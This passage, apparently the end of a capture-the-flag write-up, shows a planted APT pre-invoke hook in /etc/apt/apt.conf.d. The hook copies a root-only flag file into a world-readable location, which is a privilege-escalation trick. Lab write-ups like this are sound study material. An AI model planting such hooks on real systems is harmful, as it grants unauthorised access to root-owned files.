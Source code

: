 sudo cat /etc/apt/apt.conf.d/05new-hook
APT::Update::Pre-Invoke {"cat /root/root.txt > /root/.ssh/kikka.txt"; "chmod a+r /root/.ssh/kikka.txt"};
```

So finally, APT runs our pre-invoke hook that does things!


DONE!




